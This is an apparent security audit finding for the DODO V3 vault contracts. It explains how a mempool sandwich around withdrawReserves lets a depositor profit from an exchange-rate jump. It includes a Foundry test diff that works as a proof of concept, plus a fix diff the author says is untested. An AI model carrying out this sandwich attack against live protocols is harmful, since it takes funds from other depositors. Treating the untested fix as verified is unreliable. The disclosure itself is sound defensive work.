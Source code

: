 dirk_y

high

# User can perform sandwich attack on withdrawReserves for profit

## Summary
A malicious user could listen to the mempool for calls to `withdrawReserves`, at which point they can perform a sandwich attack by calling `userDeposit` before the withdraw reserves transaction and then `userWithdraw` after the withdraw reserves transaction. They can accomplish this using a tool like flashbots and make an instantaneous profit due to changes in exchange rates.

## Vulnerability Detail
When a user deposits or withdraws from the vault, the exchange rate of the token is calculated between the token itself and its dToken. As specified in an inline comment, the exchange rate is calculated like so:

```solidity
// exchangeRate = (cash + totalBorrows -reserves) / dTokenSupply
```

where `reserves = info.totalReserves - info.withdrawnReserves`. When the owner of the vault calls `withdrawReserves` the withdrawnReserves value increases, so the numerator of the above formula increases, and thus the exchange rate increases. An increase in exchange rate means that the same number of dTokens is now worth more of the underlying ERC20.

Below is a diff to the existing test suite that demonstrates the sandwich attack in action:

```diff
diff --git a/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol b/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol
index a699162..337d1f5 100644
--- a/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol
+++ b/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol
@@ -233,6 +233,47 @@ contract D3VaultTest is TestContext {
         assertEq(d3Vault.getTotalDebtValue(address(d3MM)), 1300 ether);
     }
 
+    function testWithdrawReservesSandwichAttack() public {
+        // Get dToken
+        (address dToken2,,,,,,,,,,) = d3Vault.getAssetInfo(address(token2));
+        
+        // Approve tokens
+        vm.prank(user1);
+        token2.approve(address(dodoApprove), type(uint256).max);
+        vm.prank(user2);
+        token2.approve(address(dodoApprove), type(uint256).max);
+        vm.prank(user2);
+        D3Token(dToken2).approve(address(dodoApprove), type(uint256).max);
+
+        // Set user quotas and mint tokens
+        mockUserQuota.setUserQuota(user1, address(token2), 1000 ether);
+        mockUserQuota.setUserQuota(user2, address(token2), 1000 ether);
+        token2.mint(user1, 1000 ether);
+        token2.mint(user2, 1000 ether);
+
+        // User 1 deposits to allow pool to borrow
+        vm.prank(user1);
+        d3Proxy.userDeposit(user1, address(token2), 500 ether);
+        token2.mint(address(d3MM), 100 ether);
+        poolBorrow(address(d3MM), address(token2), 100 ether);
+
+        vm.warp(365 days + 1);
+
+        // Accrue interest from pool borrow
+        d3Vault.accrueInterest(address(token2));
+        uint256 reserves = d3Vault.getReservesInVault(address(token2));
+
+        // User 2 performs a sandwich attack on the withdrawReserves call to make a profit
+        vm.prank(user2);
+        d3Proxy.userDeposit(user2, address(token2), 100 ether);
+        vm.prank(vaultOwner);
+        d3Vault.withdrawReserves(address(token2), reserves);
+        uint256 dTokenBalance = D3Token(dToken2).balanceOf(user2);
+        vm.prank(user2);
+        d3Proxy.userWithdraw(user2, address(token2), dToken2, dTokenBalance);
+        assertGt(token2.balanceOf(user2), 1000 ether);
+    }
+
     function testWithdrawReserves() public {
         vm.prank(user1);
         token2.approve(address(dodoApprove), type(uint256).max);

```

## Impact
An attacker can perform a sandwich attack on calls to `withdrawReserves` to make an instantaneous profit from the protocol. This effectively steals funds away from other legitimate users of the protocol.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol#L235

## Tool used
Manual Review

## Recommendation
There are a couple of ways this type of attack could be prevented:

1. User deposits could have a minimum lock time in the protocol to prevent an immediate withdraw. However the downside is the user will still profit in the same manner due to the fluctuation in exchange rates.
2. Increasing reserves whilst accruing interest could have an equal and opposite decrease in token balance accounting. Every time reserves increase you are effectively taking token value out of the vault and "reserving" it for the protocol. Given the borrow rate is higher than the reserve increase rate, the exchange rate will continue to increase. I think something like the following would work (please note I haven't tested this):

```diff
diff --git a/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol b/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol
index 2fb9364..9ad1702 100644
--- a/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol
+++ b/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol
@@ -157,6 +157,7 @@ contract D3VaultFunding is D3VaultStorage {
         uint256 compoundInterestRate = getCompoundInterestRate(borrowRatePerSecond, deltaTime);
         totalBorrowsNew = borrowsPrior.mul(compoundInterestRate);
         totalReservesNew = reservesPrior + (totalBorrowsNew - borrowsPrior).mul(info.reserveFactor);
+        info.balance = info.balance - (totalReservesNew - reservesPrior);
         borrowIndexNew = borrowIndexPrior.mul(compoundInterestRate);
 
         accrualTime = currentTime;
@@ -232,7 +233,7 @@ contract D3VaultFunding is D3VaultStorage {
         uint256 cash = getCash(token);
         uint256 dTokenSupply = IERC20(info.dToken).totalSupply();
         if (dTokenSupply == 0) { return 1e18; }
-        return (cash + info.totalBorrows - (info.totalReserves - info.withdrawnReserves)).div(dTokenSupply);
+        return (cash + info.totalBorrows).div(dTokenSupply);
     } 
 
     /// @notice Make sure accrueInterests or accrueInterest(token) is called before
```